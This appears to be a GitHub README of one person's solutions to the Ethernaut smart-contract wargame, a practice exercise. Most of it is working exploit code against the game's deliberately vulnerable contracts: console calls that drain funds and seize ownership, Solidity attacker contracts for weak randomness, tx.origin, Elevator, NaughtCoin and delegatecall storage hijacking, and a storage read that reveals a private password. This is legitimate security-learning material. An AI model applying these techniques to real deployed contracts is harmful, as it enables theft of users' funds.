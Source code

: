 # ethernaut-challenges

### challenge 1
await contract.contribute({value: toWei("0.000001")})

await contract.sendTransaction({value: toWei("0.000001")})

await contract.withdraw()

### challenge 2
Constructor spelled incorrectly


await contract.Fal1out({value: toWei("0.00000001")})

### challenge 3

```
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/contracts/utils/math/SafeMath.sol";

interface CoinFlip {
    function flip(bool) external;
}

contract Attack {
    address cF = 0x30C7A39F911f075F45434357af31Ec5aaA9828bb;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    uint256 public value;

    function attack() public returns (uint256){
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        CoinFlip(cF).flip(side);

        return blockValue;
    }
}
```

### challenge 4

```
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address) external;
}

contract Attack {
    address telephoneAddress = 0x0bDb4C476e8719Db25Baac7Ab796008023C5Ed3A;
    address myAddress = 0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;

    function attack() public {
        Telephone(telephoneAddress).changeOwner(myAddress);
    }
}
```

### challenge 5

Underflow and has to be called by someone else

### challenge 6

await window.web3.eth.sendTransaction({
    from: '0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88',
    to: '0x601D70A2fFAC4C90A3D4c4931564EE3d857d39F8',
    data: '0xdd365b8b'
})


### challenge 8

This will give you the pass:

await window.web3.eth.getStorageAt(contract.address,1)

### challenge 10

classic reentracy attack in withdraw

### challenge 11

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Attacker {
    uint256 public nn;

    function attack(address _address) external {
        Elevator elevator = Elevator(_address);
        elevator.goTo(22);

    }

    function isLastFloor(uint) external returns (bool) {
        if (nn % 2 == 0) {
            nn += 1;
            return false;
        } else {
            nn += 1;
            return true;
        }      
    }
}
```

### challenge 12

pretty easy to read out the storage.

for whatever reason metamask would change my input data which took me one hour to figure out. works with remix.

### challenge 15

create smartcontract and give it the allowance for all tokens. then run the attacker contract below.

```
contract Attacker {
    function attack(address _address) public {
        address me =    0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;
        address other = 0xEd6715D2172BFd50C2DBF608615c2AB497904803;
        NaughtCoin nc = NaughtCoin(_address);
        nc.transferFrom(me, other, nc.balanceOf(me));
    }
}
```


### challenge 16

most difficult until now... 

```
contract Attacker {
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 

  function setTime(uint256 _address) public {
    owner = address(uint160(_address));
  }
}
```

### challenge 17

cheated by getting the contract address from etherscan (lol). correct way would be to get the account address (its deterministic) from `keccack256(address, nonce)` than I simply selfdestructed the contract.

### challenge 18

You have to create bytecode (for contract creation) that will create bytecode that returns 42. Do not forget evm is big endian!

```
6060600053602A600153606060025360006003536052600453606060055360206006536060600753600060085360F3600953600A6000F3
```

### challenge 20

```
pragma solidity ^0.6.0;

contract Partner {
  
  fallback() external payable {
    assert(false);
  }
}
```
